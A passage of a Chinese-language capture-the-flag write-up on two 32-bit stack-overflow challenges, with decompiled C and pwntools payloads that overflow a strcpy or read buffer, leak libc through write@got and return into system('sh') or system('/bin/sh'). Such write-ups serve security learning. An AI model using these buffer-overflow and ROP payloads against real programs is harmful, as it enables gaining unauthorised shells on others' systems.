 ```c
  return system("echo Printing......");
}

int __cdecl GetFlag(char *src)
{
  char dest[4]; // [esp+0h] [ebp-48h] BYREF
  char v3[60]; // [esp+4h] [ebp-44h] BYREF

  *(_DWORD *)dest = 48;
  memset(v3, 0, sizeof(v3));
  strcpy(dest, src);
  return printf("The flag is your log:%s\n", dest);
}
```

`main()`函数里的字符串几乎都能溢出；但是能用的只有`src`一个，并且对它的输入在`AddLog()`函数里；并且由于`main()`是个死循环，而`AddLog()`本身没有可以利用的地方，就只能在`GetFlag()`里通过`strcpy()`利用了。

函数窗口中可见`system()`（0x80484d0），但是没有`"/bin/sh"`；本题有多种做法的，先看一下标准做法

### 标准做法

String view中有`LOAD:080482E6	00000007	C	fflush`，这是一个字符串，并且它的字串中有`"sh"`（0x80482e6+4），

那么就是简单的32位rop了，`payload = b'a'*0x(48+4) + p32(0x80484d0) + p32(0x80482ea)`

### 我的初始做法

既然往事俱备，只欠`"/bin/sh"`，而`"/bin/sh"`又是一个字符串，那应该可以通过标准输入的方式。但是缺点是这种方式需要获取字符串缓冲区的指针来作为`system()`的参数，在没有`printf()`漏洞的情况下、以我目前的能力做不到这一点；但是既然是作为参数，那如果这个指针是另一个函数的参数呢？在32位rop中，参数是不会被弹掉的，而`GetFlag(char *src)`恰好有一个满足条件的参数。

但仅仅有参数还不够，32位rop中也比正常调用少了一步`push eip`（`call fun := push eip; jmp fun`，`ret := pop edx; jmp edx`），这会导致`GetFlag(char *src)`的参数被当成`system()`函数的返回地址；恰好在`Print()`中有`call _system`指令，这就满足条件了。

但最终这个方法没有打通。原因在于`gets()`函数，这个函数会给输入的字符串补上NULL，导致指针参数的值不可避免地被修改了。

## 铁人三项(第五赛区)_2018_rop

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+10h] [ebp-88h] BYREF

  return read(0, buf, 0x100u);
}
```

简单32位rop，没有`system("/bin/sh")`，需要泄露libc

```python
payload_a = b'a'*0x8c + p32(elf.plt['write']) + p32(elf.symbols['vulnerable_function']) + p32(1) + p32(elf.got['write']) + p32(4)
payload_b = b'a'*0x8c + p32(system) + p32(0) + p32(bin_sh)
```
